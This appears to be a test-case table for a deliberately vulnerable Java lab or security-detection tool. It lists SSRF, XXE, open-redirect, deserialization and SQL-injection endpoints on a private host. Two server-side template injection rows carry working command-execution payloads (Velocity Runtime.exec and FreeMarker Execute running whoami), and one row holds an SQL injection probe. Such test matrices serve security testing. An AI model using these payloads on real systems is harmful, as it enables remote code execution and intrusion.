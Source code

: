 | ssrf_openConnection_attack | SSRF攻击-openConnection | GET | http://192.168.0.9:9991/ssrf_openConnection?url=http://www.baidu.com | 攻击 |
| ssrf_requestGet_attack | SSRF攻击-requestGet | GET | http://192.168.0.9:9991/ssrf_requestGet?url=https://www.baidu.com | 攻击 |
| ssrf_okhttp_attack | SSRF攻击-okhttp | GET | http://192.168.0.9:9991/ssrf_okhttp?url=https://www.baidu.com | 攻击 |
| ssrf_defaultHttpClient_attack | SSRF攻击-defaultHttpClient | GET | http://192.168.0.9:9991/ssrf_defaultHttpClient?url=https://www.baidu.com | 攻击 |
| ssti_velocity_attack | SSTI攻击-velocity | GET | http://192.168.0.9:9991/ssti_velocity?content=%23set (%24exp %3d "exp")%3b%24exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami") | 攻击 |
| ssti_freemarker_attack | SSTI攻击-freemarker | GET | http://192.168.0.9:9991/ssti_freemarker?templateContent=%3C%23assign%20ex%3D%22freemarker.template.utility.Execute%22%3Fnew%28%29%3E%24%7B%20ex%28%22bash%20-c%20whoami%22%29%20%7D | 攻击 |
| xxe_saxparserfactory_attack | XXE-saxparserfactory | POST | http://192.168.0.9:9991/xxe_saxparserfactory | 攻击 |
| xxe_xmlreaderfactory_attack | XXE-xmlreaderfactory | POST | http://192.168.0.9:9991/xxe_xmlreaderfactory | 攻击 |
| xxe_saxbuilder_attack | XXE-saxbuilder | POST | http://192.168.0.9:9991/xxe_saxbuilder | 攻击 |
| xxe_saxreader_attack | XXE-saxreader | POST | http://192.168.0.9:9991/xxe_saxreader | 攻击 |
| xxe_documentbuilderfactory_attack | XXE-documentbuilderfactory | POST | http://192.168.0.9:9991/xxe_documentbuilderfactory | 攻击 |
| xxe_documentbuilderfactory_xinclude_attack | XXE-documentbuilderfactory_xinclude | POST | http://192.168.0.9:9991/xxe_documentbuilderfactory_xinclude | 攻击 |
| OpenRedirector_ModelAndView_attack | URL重定向漏洞-ModelAndView | GET | http://192.168.0.9:9991/OpenRedirector_ModelAndView?url=https://www.baidu.com | 攻击 |
| OpenRedirector_sendRedirect_attack | URL重定向漏洞-sendRedirect | GET | http://192.168.0.9:9991/OpenRedirector_sendRedirect?url=https://www.baidu.com | 攻击 |
| OpenRedirector_lacation_attack | URL重定向漏洞-location | GET | http://192.168.0.9:9991/OpenRedirector_lacation?url=https://www.baidu.com | 攻击 |
| swagger-ui_attack | swagger-ui-未授权访问漏洞 | GET | http://192.168.0.9:9991/swagger-ui.html | 攻击 |
| xxe_wxpay_attack | 微信支付XXE漏洞 | POST | http://192.168.0.9:9974/wxpay-xxe | 攻击 |
| xstream_CVE-2019-10173 | xstream 反序列化漏洞(CVE-2019-10173) | POST | http://192.168.0.9:9973/CVE-2019-10173 | 攻击 |
| jackson-databind_CVE-2019-12384 | jackson-databind 反序列化漏洞(CVE-2019-12384) | GET | http://192.168.0.9:9971/CVE-2019-12384 | 攻击 |
| log4j2_normal | Log4j2 远程代码执行漏洞（CVE-2021-44228） | POST | http://192.168.0.9:9998/log4j2 | 正常 |
| fastjson_1_2_24_normal | fastjson-1.2.24反序列漏洞 | POST | http://192.168.0.9:9999/fastjson1.2.24-process | 正常 |
| fastjson1_2_25_normal | fastjson-1.2.25-1.2.41反序列漏洞-disableAutoTypeSupport | POST | http://192.168.0.9:9987/fastjson1.2.25-process | 正常 |
| fastjson1_2_41_normal | fastjson-1.2.25-1.2.41反序列漏洞-setAutoTypeSupport | POST | http://192.168.0.9:9987/fastjson1.2.41-process-setAutoTypeSupport | 正常 |
| fastjson1_2_42_normal | fastjson-1.2.42反序列漏洞 | POST | http://192.168.0.9:9986/fastjson1.2.42-process | 正常 |
| fastjson1_2_43_normal | fastjson-1.2.43反序列漏洞 | POST | http://192.168.0.9:9985/fastjson1.2.43-process | 正常 |
| fastjson1_2_45_normal | fastjson-1.2.45反序列漏洞 | POST | http://192.168.0.9:9984/fastjson1.2.45-process | 正常 |
| fastjson1_2_59_normal | fastjson-1.2.59反序列漏洞(1.2.5 <= 1.2.59) | POST | http://192.168.0.9:9983/fastjson1.2.59-process | 正常 |
| fastjson1_2_60_normal | fastjson-1.2.60反序列漏洞(1.2.5 <= 1.2.60) | POST | http://192.168.0.9:9982/fastjson1.2.60-process | 正常 |
| fastjson1_2_61_normal | fastjson-1.2.61反序列漏洞 | POST | http://192.168.0.9:9981/fastjson1.2.61-process | 正常 |
| fastjson1_2_62_normal | fastjson-1.2.62反序列漏洞 | POST | http://192.168.0.9:9980/fastjson1.2.62-process | 正常 |
| fastjson1_2_66_normal | fastjson-1.2.66反序列漏洞 | POST | http://192.168.0.9:9979/fastjson1.2.66-process | 正常 |
| fastjson1_2_67_normal | fastjson-1.2.67反序列漏洞 | POST | http://192.168.0.9:9978/fastjson1.2.67-process | 正常 |
| fastjson1_2_68_normal | fastjson-1.2.68反序列漏洞 | POST | http://192.168.0.9:9977/fastjson1.2.68-process | 正常 |
| fastjson1_2_80_normal | fastjson-1.2.80反序列漏洞 | POST | http://192.168.0.9:9976/fastjson1.2.80-process | 正常 |
| fastjson1_2_83_normal | fastjson-1.2.83-反序列漏洞 | POST | http://192.168.0.9:9975/fastjson1.2.83-process | 正常 |
| sql_injection_hsqldb_normal | SQL注入-hsqldb | GET | http://192.168.0.9:9989/hsqldb?username=1' | 正常 |
| sql_injection_lombok_normal | SQL注入-lombok | POST | http://192.168.0.9:9991/users/lombok | 正常 |